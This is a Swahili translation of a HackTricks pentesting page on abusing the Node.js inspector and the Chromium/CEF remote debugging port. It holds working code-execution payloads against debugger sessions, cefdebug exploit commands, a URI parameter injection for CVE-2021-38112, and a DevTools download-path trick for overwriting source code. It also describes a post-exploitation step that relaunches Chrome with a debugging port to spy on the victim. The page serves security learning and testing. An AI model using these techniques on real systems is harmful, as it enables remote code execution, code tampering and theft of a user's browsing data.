 # Kudanganya kwa Node inspector/CEF debug

<details>

<summary><strong>Jifunze AWS kudukua kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

[Kutoka kwa nyaraka](https://origin.nodejs.org/ru/docs/guides/debugging-getting-started): Wakati inapoanzishwa na kubadilisha `--inspect`, mchakato wa Node.js unasikiliza mteja wa kudukua. Kwa **default**, itasikiliza kwenye mwenyeji na bandari **`127.0.0.1:9229`**. Kila mchakato pia hupewa **UUID** **ya kipekee**.

Wateja wa Inspector lazima wajue na kutaja anwani ya mwenyeji, bandari, na UUID kuunganisha. URL kamili itaonekana kama `ws://127.0.0.1:9229/0f2c936f-b1cd-4ac9-aab3-f63b0f33d55e`.

{% hint style="warning" %}
Kwa kuwa **kudukua kuna ufikiaji kamili wa mazingira ya utekelezaji wa Node.js**, mwigizaji mwenye nia mbaya anayeweza kuunganisha kwenye bandari hii anaweza kutekeleza nambari ya kupindukia kwa niaba ya mchakato wa Node.js (**kuongezeka kwa mamlaka ya upeo**).
{% endhint %}

Kuna njia kadhaa za kuanzisha inspector:
```bash
node --inspect app.js #Will run the inspector in port 9229
node --inspect=4444 app.js #Will run the inspector in port 4444
node --inspect=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
node --inspect-brk=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
# --inspect-brk is equivalent to --inspect

node --inspect --inspect-port=0 app.js #Will run the inspector in a random port
# Note that using "--inspect-port" without "--inspect" or "--inspect-brk" won't run the inspector
```
Unapoanza mchakato uliochunguzwa kitu kama hiki kitatokea:
```
Debugger ending on ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
For help, see: https://nodejs.org/en/docs/inspector
```
Mchakato unaotegemea **CEF** (**Chromium Embedded Framework**) kama unahitaji kutumia param: `--remote-debugging-port=9222` ili kufungua **debugger** (ulinzi wa SSRF unabaki sawa sana). Hata hivyo, badala yake ya kutoa kikao cha **debug** cha **NodeJS** kitawasiliana na kivinjari kutumia [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/), hii ni kiolesura cha kudhibiti kivinjari, lakini hakuna RCE moja kwa moja.

Unapoanzisha kivinjari kilichodhibitishwa kama hiki kitatokea:
```
DevTools listening on ws://127.0.0.1:9222/devtools/browser/7d7aa9d9-7c61-4114-b4c6-fcf5c35b4369
```
### Vivinjari, WebSockets na sera ya asili <a href="#browsers-websockets-and-same-origin-policy" id="browsers-websockets-and-same-origin-policy"></a>

Tovuti zilizofunguliwa kwenye kivinjari cha wavuti zinaweza kufanya ombi la WebSocket na HTTP chini ya mfano wa usalama wa kivinjari. **Unganisho wa kwanza wa HTTP** ni muhimu kwa **kupata kitambulisho cha kikao cha debugger**. **Sera sawa na asili** **inazuia** tovuti kutoka kufanya **unganisho hili la HTTP**. Kwa usalama zaidi dhidi ya [**mashambulizi ya kurejelea DNS**](https://en.wikipedia.org/wiki/DNS\_rebinding)**,** Node.js inathibitisha kuwa vichwa vya **'Host'** kwa uhusiano vinabainisha **anwani ya IP** au **`localhost`** au **`localhost6`** kwa usahihi.

{% hint style="info" %}
Hatua hizi za **usalama zinazuia kutumia inspector** kutekeleza nambari kwa **kutuma tu ombi la HTTP** (ambalo lingeweza kufanywa kwa kutumia udhaifu wa SSRF).
{% endhint %}

### Kuanza inspector katika michakato inayoendelea

Unaweza kutuma **ishara SIGUSR1** kwa mchakato wa nodejs unaofanya kazi ili kufanya **ianze inspector** kwenye bandari ya msingi. Walakini, kumbuka kuwa unahitaji **mamlaka za kutosha**, hivyo hii inaweza kukupatia **upatikanaji wa mamlaka kwa habari ndani ya mchakato** lakini sio ukuaji wa moja kwa moja wa mamlaka.
```bash
kill -s SIGUSR1 <nodejs-ps>
# After an URL to access the debugger will appear. e.g. ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
```
{% hint style="info" %}
Hii ni muhimu katika vyombo kwa sababu **kuzima mchakato na kuanzisha mpya** na `--inspect` sio **chaguo** kwa sababu **kontena** itauawa na mchakato.
{% endhint %}

### Unganisha kwa mkaguzi/mchunguzi

Kuunganisha kwa kivinjari **kinachotegemea Chromium**, URL za `chrome://inspect` au `edge://inspect` zinaweza kufikiwa kwa Chrome au Edge, mtawalia. Kwa kubonyeza kitufe cha Configure, ni lazima kuhakikisha kuwa **mwenyeji na bandari ya lengo** zimeorodheshwa kwa usahihi. Picha inaonyesha mfano wa Utekelezaji wa Kanuni kwa Mbali (RCE):

![](<../../.gitbook/assets/image (674).png>)

Kutumia **mstari wa amri** unaweza kuunganisha kwa mkaguzi/mchunguzi na:
```bash
node inspect <ip>:<port>
node inspect 127.0.0.1:9229
# RCE example from debug console
debug> exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```
The tool [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug), inaruhusu **kupata wachunguzi** wanaofanya kazi kwa ndani na **kuingiza msimbo** ndani yao.
```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```
{% hint style="info" %}
Tafadhali kumbuka kwamba **NodeJS RCE exploits haitafanya kazi** ikiwa unahusishwa na kivinjari kupitia [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/) (unahitaji kuangalia API ili kupata vitu vya kuvutia vya kufanya nayo).
{% endhint %}

## RCE katika NodeJS Debugger/Inspector

{% hint style="info" %}
Ikiwa umekuja hapa ukitafuta jinsi ya kupata [**RCE kutoka kwa XSS katika Electron tafadhali angalia ukurasa huu.**](../../network-services-pentesting/pentesting-web/electron-desktop-apps/)
{% endhint %}

Baadhi ya njia za kawaida za kupata **RCE** unapoweza **kuhusisha** kwenye Node **inspector** ni kutumia kitu kama hiki (inaonekana kwamba hii **haitafanya kazi katika uhusiano na Chrome DevTools protocol**):
```javascript
process.mainModule.require('child_process').exec('calc')
window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")
require('child_process').spawnSync('calc.exe')
Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))
```
## Malipo ya Itifaki ya Chrome DevTools

Unaweza kuangalia API hapa: [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)\
Katika sehemu hii nitataja mambo ya kuvutia ambayo watu wamegundua wanaweza kutumia kudanganya itifaki hii.

### Uingizaji wa Parameta kupitia Viungo vya Kina

Katika [**CVE-2021-38112**](https://rhinosecuritylabs.com/aws/cve-2021-38112-aws-workspaces-rce/) Rhino security iligundua kwamba programu iliyotegemea CEF **iliandikisha URI ya desturi** kwenye mfumo (workspaces://) ambayo ilipokea URI kamili na kisha **kuzindua programu iliyotegemea CEF** na usanidi uliokuwa sehemu iliyoundwa kutoka kwa URI hiyo.

Iligundulika kwamba parameta za URI zilikuwa zimefanyiwa URL decode na kutumika kuzindua programu ya msingi ya CEF, kuruhusu mtumiaji **kudukua** bendera **`--gpu-launcher`** kwenye **mstari wa amri** na kutekeleza mambo yoyote. 

Hivyo, malipo kama:
```
workspaces://anything%20--gpu-launcher=%22calc.exe%22@REGISTRATION_CODE
```
### Badilisha Faili

Badilisha folda ambapo **faili zilizopakuliwa zitahifadhiwa** na pakua faili ili **kubadilisha** mara kwa mara **mikodisho ya chanzo** ya programu na **mikodisho yako ya uovu**.
```javascript
ws = new WebSocket(url); //URL of the chrome devtools service
ws.send(JSON.stringify({
id: 42069,
method: 'Browser.setDownloadBehavior',
params: {
behavior: 'allow',
downloadPath: '/code/'
}
}));
```
### Uchomaji wa mbali wa Webdriver na utoaji wa data

Kulingana na chapisho hili: [https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148](https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148) inawezekana kupata RCE na kutoa kurasa za ndani kutoka kwa dereva.

### Baada ya Uvamizi

Katika mazingira halisi na **baada ya kuvamia** kompyuta ya mtumiaji inayotumia kivinjari kinachotegemea Chrome/Chromium unaweza kuzindua mchakato wa Chrome na **kuwezesha uchunguzi na kuhamisha bandari ya uchunguzi** ili uweze kufikia hiyo. Kwa njia hii utaweza **kuchunguza kila kitu ambacho muathiriwa anafanya na Chrome na kuiba taarifa nyeti**.

Njia ya kisiri ni **kukomesha kila mchakato wa Chrome** na kisha kuita kitu kama
```bash
Start-Process "Chrome" "--remote-debugging-port=9222 --restore-last-session"
```
## Marejeo

* [https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)
* [https://nodejs.org/en/docs/guides/debugging-getting-started/](https://nodejs.org/en/docs/guides/debugging-getting-started/)
* [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)
* [https://larry.science/post/corctf-2021/#saasme-2-solves](https://larry.science/post/corctf-2021/#saasme-2-solves)
* [https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
